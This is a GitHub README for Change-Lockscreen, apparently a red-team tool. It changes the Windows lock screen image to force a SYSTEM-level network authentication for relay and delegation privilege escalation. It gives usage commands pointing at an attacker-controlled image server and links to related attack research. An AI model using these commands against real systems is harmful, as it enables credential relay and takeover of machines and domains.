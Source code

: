 # Change-Lockscreen

Change-Lockscreen is a tool to trigger network authentications as SYSTEM by changing the Windows lock screen image from the command line to perform privilege escalation attacks such as the one described in the post linked below:
*  https://www.nccgroup.trust/uk/about-us/newsroom-and-events/blogs/2019/august/kerberos-resource-based-constrained-delegation-when-an-image-change-leads-to-a-privilege-escalation/

# Features

By default, Windows 10 has a feature called Windows Spotlight. It downloads and displays lock screen images automatically.
*	When this feature is enabled, Change-Lockscreen will disable it and establish the image specified in the arguments
*	Otherwise if the user has a custom lock screen image, Change-Lockscreen will be in charge to run a backup of it, trigger the network authentication, and establish it again

Note: while the PowerShell version of the tool works reliably, the C# version sometimes fails to restore the original image.

# Usage 

```
Change-Lockscreen -FullPath \\[imageserver]@[port]\[fakePath]\[image.jpg]
Change-Lockscreen -Webdav \\[imageserver]@[port]\ 
```

[![Watch the video](https://i.ytimg.com/vi/NsDQH1H89FQ/maxresdefault.jpg)](https://youtu.be/NsDQH1H89FQ)

# Authors
* Simone Salucci
* Daniel López Jiménez

# Acknowledgements

* https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html
* https://gist.github.com/3xocyte/4ea8e15332e5008581febdb502d0139c
* https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/
* https://dirkjanm.io/exploiting-CVE-2019-1040-relay-vulnerabilities-for-rce-and-domain-admin/
* http://www.harmj0y.net/blog/activedirectory/a-case-study-in-wagging-the-dog-computer-takeover/
* https://www.harmj0y.net/blog/redteaming/another-word-on-delegation/

